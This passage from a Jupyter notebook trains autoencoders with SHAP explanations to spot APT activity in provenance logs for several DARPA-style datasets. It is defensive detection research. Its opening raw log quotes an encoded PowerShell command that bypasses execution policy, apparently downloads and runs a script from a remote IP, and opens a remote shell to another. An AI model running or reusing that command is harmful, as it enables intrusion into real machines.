Raw Log: Process has event bind and event check_file_attributes and event close and event connect and event create_object and event create_thread and event execute and event exit and event fcntl and event fork and executable \windows\system32\cmd.exe.1 and network 0 and network 208.75.117.5 and network 208.75.117.6 and network 80 and attribute powershell  -nop -ep bypass -encodedcommand kaboaguadwatae8aygbqaguaywb0acaatgblahqalgbxaguaygbdagwaaqblag4adaapac4azabvahcabgbsag8ayqbkagyaaqbsaguakaanaggadab0ahaaogavac8amgawadgalga3adualgaxadeanwauadualwb1ahaazabhahqazqauahaacwaxaccalaagaccaqwa6afwacabyag8azwbyageabqbkageadabhafwadqbwagqayqb0agualgbwahmamqanackaowagac4aiabdadoaxabcahaacgbvagcacgbhag0azabhahqayqbcafwadqbwagqayqb0agualgbwahmamqa7acaacabvahcazqbyagmayqb0acaalqbjacaamgawadgalga3adualgaxadeanwauadyaiaatahaaiaa4adaaiaataguaiabjag0azaauaguaeabl
Amplified Anomaly Score: 0.2744

[1] Running LIME...
   Top LIME Drivers (Sorted by Absolute Blast Rad

##### v5 final

In [4]:
import os
import pickle
import numpy as np
import pandas as pd
import shap
import torch
import torch.nn as nn
from sklearn.feature_extraction.text import TfidfVectorizer

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# 1. Load the actual text data
MASTER_DATA_FILE = "all_data_with_sentences.pkl"
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# Pick the dataset
performer = list(master_text_data.keys())[0]
context = list(master_text_data[performer].keys())[0]
df = master_text_data[performer][context]

text_col = 'sentence' if 'sentence' in df.columns else 'text'
label_col = 'label' if 'label' in df.columns else 'y'
df = df.dropna(subset=[text_col]).reset_index(drop=True)

# --- STRICT TRAIN/TEST SPLIT ---
normal_df = df[df[label_col] == 0]
anomaly_df = df[df[label_col] == 1]

# 80% of normal logs for Training
train_size = int(0.8 * len(normal_df))
train_texts = normal_df[text_col].tolist()[:train_size]

# 20% of normal logs + ALL anomalies for Testing
test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

print(f"Train Set: {len(train_texts)} normal logs")
print(f"Test Set: {len(test_texts)} logs ({len(anomaly_df)} are anomalies)")

# 2. Vectorize text 
vectorizer = TfidfVectorizer(max_features=None)
# Fit on all texts so vocabulary matches, but apply separately
vectorizer.fit(train_texts + test_texts)

X_train_tfidf = vectorizer.transform(train_texts).toarray()
X_test_tfidf  = vectorizer.transform(test_texts).toarray()

# --- 3. Build the PyTorch Autoencoder ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

input_dim = X_train_tfidf.shape[1]
autoencoder = VanillaAE(input_dim).to(DEVICE)
optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
criterion = nn.MSELoss()

# Train ONLY on the Train Set (Normal logs)
X_train_tensor = torch.FloatTensor(X_train_tfidf).to(DEVICE)

print("Training PyTorch Autoencoder on Train Set...")
autoencoder.train()
epochs = 50
batch_size = 32

for epoch in range(epochs):
    permutation = torch.randperm(X_train_tensor.size()[0])
    for i in range(0, X_train_tensor.size()[0], batch_size):
        indices = permutation[i:i+batch_size]
        batch_x = X_train_tensor[indices]
        
        optimizer.zero_grad()
        reconstruction = autoencoder(batch_x)
        loss = criterion(reconstruction, batch_x)
        loss.backward()
        optimizer.step()
        
print("Training Complete.")

Train Set: 8913 normal logs
Test Set: 2238 logs (9 are anomalies)
Training PyTorch Autoencoder on Train Set...
Training Complete.


In [5]:
print(f"X_test Shape: {X_test_tfidf.shape}")

autoencoder.eval()

# --- 4. Define the function SHAP will explain ---
def reconstruction_loss(x):
    x_tensor = torch.FloatTensor(x).to(DEVICE)
    with torch.no_grad():
        preds = autoencoder(x_tensor)
        mse = torch.mean((x_tensor - preds) ** 2, dim=1).cpu().numpy()
    return mse

# --- 5. Use KernelExplainer ---
# Background uses a sample from the TRAIN set (what the model learned is "normal")
background = shap.maskers.Independent(X_train_tfidf[:100])
explainer = shap.Explainer(reconstruction_loss, background)

# Evaluate SHAP on the TEST set
print("Calculating SHAP on Test Set...")
shap_values_all = explainer(X_test_tfidf[:300])

X_test Shape: (2238, 34)
Calculating SHAP on Test Set...


In [6]:
all_errors = reconstruction_loss(X_test_tfidf)
all_errors

array([1.8310850e-06, 1.8702614e-06, 2.2271354e-06, ..., 2.4393307e-06,
       3.3104420e-06, 1.4892343e-05], shape=(2238,), dtype=float32)

In [7]:
shap_values_all.shape

(300, 34)

In [8]:
import matplotlib.pyplot as plt

feature_names = vectorizer.get_feature_names_out()

# Automatically find the worst anomaly index in our evaluated sample
idx = np.argmax(all_errors[:300])
importance = shap_values_all.values[idx]

tokens = feature_names
print(f"Target Anomaly Log: {test_texts[idx]}")

Target Anomaly Log: Process has event accept and event bind and event check_file_attributes and event close and event connect and event create_object and event create_thread and event execute and event exit and event fcntl and event fork and event loadlibrary and event modify_file_attributes and event open and event other and event read and event signal and event write


In [9]:
# 1. Get indices of features with positive importance
i = np.where(importance > 0)[0]
ii = i[np.argsort(importance[i])[::-1]]

print("Importance Values:", importance[ii][:10])
print("Tokens:", tokens[ii][:10])
print("Mean Importance:", importance.mean())

Importance Values: [3.00412117e-04 2.59218137e-04 1.93335220e-04 1.67765885e-04
 4.69681014e-05 1.73142033e-05 1.46263531e-05 1.29623030e-05]
Tokens: ['accept' 'connect' 'recvmsg' 'bind' 'sendto' 'write' 'has' 'signal']
Mean Importance: -3.9351037583615205e-06




In [10]:
# 6. Plotting
plt.figure(figsize=(10, 8))

# Limit to top 15 words for a clean plot
top_importances = importance[ii][:15]
top_tokens = tokens[ii][:15]

# Reverse so highest is at the top
plt.barh(range(top_importances[::-1].shape[0]), top_importances[::-1], color='#008bfb')
plt.yticks(range(top_importances[::-1].shape[0]), top_tokens[::-1], fontsize=12) # ACTUAL WORDS HERE
plt.xlabel("SHAP Value (Impact on Reconstruction Error)", fontsize=12, fontweight='bold')
plt.title(f"TF-IDF Token Importance (Test Sentence {idx})", fontsize=14, fontweight='bold')
plt.axvline(0, color='black', linewidth=0.8)
plt.grid(axis='x', linestyle='--', alpha=0.3)

plt.tight_layout()
plt.savefig("tfidf_shap_plot.png", dpi=300)
plt.show()

In [11]:
# Create the requested Pandas DataFrame table
feature_table = pd.DataFrame({
    "Token (Feature Name)": top_tokens,
    "SHAP Value (Impact)": top_importances
})

# Format the SHAP values for clean reading
feature_table["SHAP Value (Impact)"] = feature_table["SHAP Value (Impact)"].apply(lambda x: f"+{x:.6f}")

print("\n" + "="*50)
print("📊 TABLE: Top Anomaly Drivers")
print("="*50)
print(feature_table.to_string(index=False))
print("="*50)


📊 TABLE: Top Anomaly Drivers
Token (Feature Name) SHAP Value (Impact)
              accept           +0.000300
             connect           +0.000259
             recvmsg           +0.000193
                bind           +0.000168
              sendto           +0.000047
               write           +0.000017
                 has           +0.000015
              signal           +0.000013


In [10]:
from transformers import AutoTokenizer, AutoModel
import torch
import torch.nn as nn
import pickle
import numpy as np
import shap

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

performer = "5dir"
context = "ProcessAll"

# Load the pre-calculated Contriever Train/Test Splits
TRAIN_FILE = f"final_train_test_split_contriever/{performer}/train/{context}.pkl"
TEST_FILE = f"final_train_test_split_contriever/{performer}/test/{context}.pkl"

with open(TRAIN_FILE, "rb") as f:
    pkg_train = pickle.load(f)
    X_train_emb, y_train_emb = pkg_train['X'], pkg_train['y']

with open(TEST_FILE, "rb") as f:
    pkg_test = pickle.load(f)
    X_test_emb, y_test_emb = pkg_test['X'], pkg_test['y']

input_dim_emb = X_train_emb.shape[1] # Will be 768

class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))


# Re-use the VanillaAE architecture for 768 dimensions
autoencoder_emb = VanillaAE(input_dim_emb).to(DEVICE)
optimizer_emb = torch.optim.Adam(autoencoder_emb.parameters(), lr=0.001)
criterion_emb = nn.MSELoss()

# Train on normal embeddings
normal_indices_train = np.where(y_train_emb == 0)[0]
X_train_emb_tensor = torch.FloatTensor(X_train_emb[normal_indices_train]).to(DEVICE)

print("Training Contriever Embeddings Autoencoder...")
autoencoder_emb.train()
for epoch in range(50):
    permutation = torch.randperm(X_train_emb_tensor.size()[0])
    for j in range(0, X_train_emb_tensor.size()[0], 32):
        indices = permutation[j:j+32]
        batch_x = X_train_emb_tensor[indices]
        
        optimizer_emb.zero_grad()
        reconstruction = autoencoder_emb(batch_x)
        loss = criterion_emb(reconstruction, batch_x)
        loss.backward()
        optimizer_emb.step()

autoencoder_emb.eval()

def reconstruction_loss_emb(x):
    x_tensor = torch.FloatTensor(x).to(DEVICE)
    with torch.no_grad():
        preds = autoencoder_emb(x_tensor)
        mse = torch.mean((x_tensor - preds) ** 2, dim=1).cpu().numpy()
    return mse

# Explain the Test Set using the Train Set as background
background_emb = shap.maskers.Independent(X_train_emb[normal_indices_train[:100]])
explainer_emb = shap.Explainer(reconstruction_loss_emb, background_emb)

# Run SHAP on the Embeddings 
shap_values_emb = explainer_emb(X_test_emb[:100], max_evals=15000) 

for idx_emb in range(min(25, len(X_test_emb))):
    importance_emb = shap_values_emb.values[idx_emb]
    print(idx_emb, importance_emb.mean())

Training Contriever Embeddings Autoencoder...


PermutationExplainer explainer: 101it [11:17,  6.78s/it]                         

0 -1.1161227782737397e-09
1 -1.6297998791288866e-09
2 -3.102082579697933e-10
3 -1.0686958270185934e-09
4 -1.4306838221530191e-09
5 -1.3677046077168833e-09
6 -1.4306838221530185e-09
7 -1.430683822153019e-09
8 -1.3234303937921993e-09
9 -1.3234303926408563e-09
10 -1.6297998791288868e-09
11 -1.3234303937921983e-09
12 -1.4031262363101153e-09
13 -1.068695827018592e-09
14 -1.3234303937921977e-09
15 -1.581922732437254e-09
16 -1.409849672932377e-09
17 -1.317133985952642e-09
18 -1.6297998791288874e-09
19 -1.6297998791288876e-09
20 -1.323430392640856e-09
21 8.334283348639585e-10
22 -1.4098496729323774e-09
23 -1.367704607716884e-09
24 -1.3171339859526412e-09


📦 Loading Master Dataset into memory...

🚀 EVALUATING TF-IDF VANILLA AE: 5DIR
Train Set: 8913 normal logs
Test Set: 2238 logs (9 are anomalies)
-> Training model (MSE Loss)...
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000106





Classification Report for 5DIR:
              precision    recall  f1-score   support

           0     0.9991    0.9704    0.9845      2229
           1     0.0959    0.7778    0.1707         9

    accuracy                         0.9696      2238
   macro avg     0.5475    0.8741    0.5776      2238
weighted avg     0.9954    0.9696    0.9813      2238


🚀 EVALUATING TF-IDF VANILLA AE: CADETS
Train Set: 179690 normal logs
Test Set: 44934 logs (11 are anomalies)
-> Training model (MSE Loss)...
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000045





Classification Report for CADETS:
              precision    recall  f1-score   support

           0     1.0000    0.9931    0.9965     44923
           1     0.0342    1.0000    0.0661        11

    accuracy                         0.9931     44934
   macro avg     0.5171    0.9965    0.5313     44934
weighted avg     0.9998    0.9931    0.9963     44934


🚀 EVALUATING TF-IDF VANILLA AE: CLEARSCOPE
Train Set: 9674 normal logs
Test Set: 2432 logs (13 are anomalies)
-> Training model (MSE Loss)...
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000101





Classification Report for CLEARSCOPE:
              precision    recall  f1-score   support

           0     1.0000    0.9859    0.9929      2419
           1     0.2766    1.0000    0.4333        13

    accuracy                         0.9860      2432
   macro avg     0.6383    0.9930    0.7131      2432
weighted avg     0.9961    0.9860    0.9899      2432


🚀 EVALUATING TF-IDF VANILLA AE: THEIA
Train Set: 223415 normal logs
Test Set: 55954 logs (100 are anomalies)
-> Training model (MSE Loss)...
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000016





Classification Report for THEIA:
              precision    recall  f1-score   support

           0     1.0000    0.9951    0.9975     55854
           1     0.2640    0.9900    0.4168       100

    accuracy                         0.9950     55954
   macro avg     0.6320    0.9925    0.7072     55954
weighted avg     0.9987    0.9950    0.9965     55954


🚀 EVALUATING TF-IDF VANILLA AE: TRACE
Train Set: 225645 normal logs
Test Set: 56458 logs (46 are anomalies)
-> Training model (MSE Loss)...
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000019





Classification Report for TRACE:
              precision    recall  f1-score   support

           0     1.0000    0.9942    0.9971     56412
           1     0.1240    1.0000    0.2206        46

    accuracy                         0.9942     56458
   macro avg     0.5620    0.9971    0.6089     56458
weighted avg     0.9993    0.9942    0.9965     56458



In [1]:
import os
import pickle
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.metrics import confusion_matrix, classification_report
import gc

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# ==========================================
# 1. SETUP & ARCHITECTURE
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']
TARGET_CONTEXT = "ProcessAll"

print("📦 Loading Master Dataset into memory...")
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

def get_reconstruction_errors(model, data_array):
    tensor = torch.FloatTensor(data_array).to(DEVICE)
    with torch.no_grad():
        reconstruction = model(tensor)
        # Calculate Mean Squared Error (MSE) per log
        mse = torch.mean((tensor - reconstruction) ** 2, dim=1).cpu().numpy()
    return mse

# ==========================================
# 2. MASTER EVALUATION LOOP
# ==========================================
for performer in PERFORMERS:
    print("\n" + "="*80)
    print(f"🚀 EVALUATING TF-IDF VANILLA AE: {performer.upper()}")
    print("="*80)

    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Data not found for {performer}. Skipping.")
        continue

    # --- A. Load, Clean & Memory Fix ---
    df = master_text_data[performer][TARGET_CONTEXT]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [CRITICAL MEMORY FIX] Drop all unused feature columns to prevent 14GB RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    # --- B. Strict 80/20 Split ---
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    # Train on 80% of normal logs
    train_texts = normal_df[text_col].tolist()[:train_size]
    # Test on remaining 20% normal + ALL anomalies
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))
    
    print(f"Train Set: {len(train_texts)} normal logs")
    print(f"Test Set: {len(test_texts)} logs ({len(anomaly_df)} are anomalies)")

    # --- C. TF-IDF Vectorization ---
    vectorizer = TfidfVectorizer(max_features=None)
    # Fit on all to build complete vocabulary, transform separately to prevent data leakage
    vectorizer.fit(train_texts + test_texts)
    X_train_tfidf = vectorizer.transform(train_texts).toarray()
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # --- D. Train Vanilla AE ---
    print("-> Training model (MSE Loss)...")
    input_dim = X_train_tfidf.shape[1]
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
    criterion = nn.MSELoss()

    # Keep dataset on CPU, only move mini-batches to GPU
    X_train_tensor = torch.FloatTensor(X_train_tfidf)
    autoencoder.train()
    
    epochs = 50
    batch_size = 32
    for epoch in range(epochs):
        permutation = torch.randperm(X_train_tensor.size()[0])
        for i in range(0, X_train_tensor.size()[0], batch_size):
            batch_x = X_train_tensor[permutation[i:i+batch_size]].to(DEVICE)
            
            optimizer.zero_grad()
            loss = criterion(autoencoder(batch_x), batch_x)
            loss.backward()
            optimizer.step()
            
            del batch_x # Prevent CUDA OOM
            
    autoencoder.eval()

    # --- E. Calculate Errors & Apply Threshold ---
    print("-> Calculating anomaly scores...")
    train_errors = get_reconstruction_errors(autoencoder, X_train_tfidf)
    test_errors = get_reconstruction_errors(autoencoder, X_test_tfidf)

    # Threshold: 99.5th percentile of normal training errors
    threshold = np.percentile(train_errors, 99.5)
    print(f"-> Calculated 99.5% Threshold: {threshold:.6f}")

    # Generate binary predictions (1 if error > threshold, else 0)
    predictions = (test_errors > threshold).astype(int)

    # --- F. Plot Confusion Matrix & Metrics ---
    cm = confusion_matrix(test_labels, predictions)

    plt.figure(figsize=(6, 4))
    sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
                xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
                yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
    plt.title(f"Confusion Matrix: {performer.upper()} TF-IDF Vanilla AE")
    plt.ylabel('True Label')
    plt.xlabel('Predicted Label')
    plt.show()

    print(f"\nClassification Report for {performer.upper()}:")
    print(classification_report(test_labels, predictions, digits=4))
    
    # --- G. System Cleanup ---
    del X_train_tfidf, X_test_tfidf, X_train_tensor, autoencoder
    gc.collect()
    torch.cuda.empty_cache()

##### Final v6

In [3]:
import os
import pickle
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from sklearn.feature_extraction.text import TfidfVectorizer

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# ==========================================
# 1. LOAD DATA
# ==========================================
# Replaced restricted file name with a placeholder
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# ==========================================
# 2. DEFINE ROBUST AUTOENCODER MODEL
# ==========================================
class RobustAE(nn.Module):
    def __init__(self, input_dim):
        super(RobustAE, self).__init__()
        
        # Encoder with LeakyReLU and Dropout for robust feature extraction
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), 
            nn.LeakyReLU(0.2),
            nn.Dropout(0.2),
            nn.Linear(1024, 256), 
            nn.LeakyReLU(0.2)
        )
        
        # Decoder mirroring the robust architecture
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), 
            nn.LeakyReLU(0.2),
            nn.Dropout(0.2),
            nn.Linear(1024, input_dim)
        )
        
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 3. LOOP THROUGH PERFORMERS
# ==========================================
for performer in PERFORMERS:
    print("="*60)
    print(f"Processing Performer: {performer.upper()} | Context: {TARGET_CONTEXT}")
    
    # Check if performer and context exist in the loaded data
    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Warning: Data not found for {performer}. Skipping.")
        continue

    df = master_text_data[performer][TARGET_CONTEXT]

    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'

    # Clean empty rows
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    # --- STRICT 80/20 SPLIT LOGIC ---
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]

    train_size = int(0.8 * len(normal_df))

    # Train Set: 80% Normal logs only
    train_texts = normal_df[text_col].tolist()[:train_size]

    # Test Set: Remaining 20% Normal logs + ALL Anomalous logs
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    print(f"Train Set: {len(train_texts)} normal logs")
    print(f"Test Set: {len(test_texts)} logs ({len(anomaly_df)} are anomalies)")

    # --- TF-IDF VECTORIZATION ---
    vectorizer = TfidfVectorizer(max_features=None)
    
    # Fit on all text so the vocabulary matches, but transform separately
    vectorizer.fit(train_texts + test_texts)
    X_train_tfidf = vectorizer.transform(train_texts).toarray()
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # --- BUILD & TRAIN PYTORCH AUTOENCODER ---
    input_dim = X_train_tfidf.shape[1]
    
    # Initialize the new RobustAE
    autoencoder = RobustAE(input_dim).to(DEVICE)
    optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
    
    # Switch to L1 Loss (Mean Absolute Error) to ignore extreme outliers during training
    criterion = nn.L1Loss()

    X_train_tensor = torch.FloatTensor(X_train_tfidf).to(DEVICE)

    print(f"\nTraining Robust PyTorch Autoencoder on {performer.upper()} Train Set...")
    autoencoder.train()
    epochs = 50
    batch_size = 32

    for epoch in range(epochs):
        permutation = torch.randperm(X_train_tensor.size()[0])
        for i in range(0, X_train_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            batch_x = X_train_tensor[indices]
            
            optimizer.zero_grad()
            reconstruction = autoencoder(batch_x)
            loss = criterion(reconstruction, batch_x)
            loss.backward()
            optimizer.step()
            
    print(f"Training Complete for {performer.upper()}.\n")

Processing Performer: 5DIR | Context: ProcessAll
Train Set: 8913 normal logs
Test Set: 2238 logs (9 are anomalies)

Training Robust PyTorch Autoencoder on 5DIR Train Set...
Training Complete for 5DIR.

Processing Performer: CADETS | Context: ProcessAll
Train Set: 179690 normal logs
Test Set: 44934 logs (11 are anomalies)

Training Robust PyTorch Autoencoder on CADETS Train Set...
Training Complete for CADETS.

Processing Performer: CLEARSCOPE | Context: ProcessAll
Train Set: 9674 normal logs
Test Set: 2432 logs (13 are anomalies)

Training Robust PyTorch Autoencoder on CLEARSCOPE Train Set...
Training Complete for CLEARSCOPE.

Processing Performer: THEIA | Context: ProcessAll
Train Set: 223415 normal logs
Test Set: 55954 logs (100 are anomalies)

Training Robust PyTorch Autoencoder on THEIA Train Set...
Training Complete for THEIA.

Processing Performer: TRACE | Context: ProcessAll
Train Set: 225645 normal logs
Test Set: 56458 logs (46 are anomalies)

Training Robust PyTorch Autoencode

In [4]:
# The context we are looking at
TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

for performer in PERFORMERS:
    print("=" * 40)
    print(f"PERFORMER: {performer.upper()}")
    print("=" * 40)
    
    # Safely check if the performer and context exist in your loaded data
    if performer in master_text_data and TARGET_CONTEXT in master_text_data[performer]:
        df_inspect = master_text_data[performer][TARGET_CONTEXT]
        
        # Determine the label column name dynamically
        label_col = 'label' if 'label' in df_inspect.columns else 'y'
        
        print("Columns:", df_inspect.columns.tolist())
        print(f"\nLabel counts:\n{df_inspect[label_col].value_counts()}\n")
    else:
        print("[!] Data not found for this performer in memory.\n")

PERFORMER: 5DIR
Columns: ['EVENT_ACCEPT', 'EVENT_BIND', 'EVENT_CHANGE_PRINCIPAL', 'EVENT_CHECK_FILE_ATTRIBUTES', 'EVENT_CLOSE', 'EVENT_CONNECT', 'EVENT_CREATE_OBJECT', 'EVENT_CREATE_THREAD', 'EVENT_EXECUTE', 'EVENT_EXIT', 'EVENT_FCNTL', 'EVENT_FORK', 'EVENT_LINK', 'EVENT_LOADLIBRARY', 'EVENT_LOGIN', 'EVENT_LOGOUT', 'EVENT_MODIFY_FILE_ATTRIBUTES', 'EVENT_OPEN', 'EVENT_OTHER', 'EVENT_READ', 'EVENT_RECVFROM', 'EVENT_RECVMSG', 'EVENT_RENAME', 'EVENT_SENDMSG', 'EVENT_SENDTO', 'EVENT_SIGNAL', 'EVENT_UNLINK', 'EVENT_UPDATE', 'EVENT_WRITE', 'None', '\\windows\\microsoft.net\\framework64\\v4.0.30319\\mscorsvw.exe -startupevent 168 -interruptevent 0 -ngenprocess 17c -pipe 174 -comment "ngen worker process"', '\\windows\\microsoft.net\\framework64\\v4.0.30319\\mscorsvw.exe -startupevent 17c -interruptevent 0 -ngenprocess 130 -pipe 178 -comment "ngen worker process"', '\\windows\\microsoft.net\\framework64\\v4.0.30319\\mscorsvw.exe -startupevent 17c -interruptevent 0 -ngenprocess 134 -pipe 178 -co

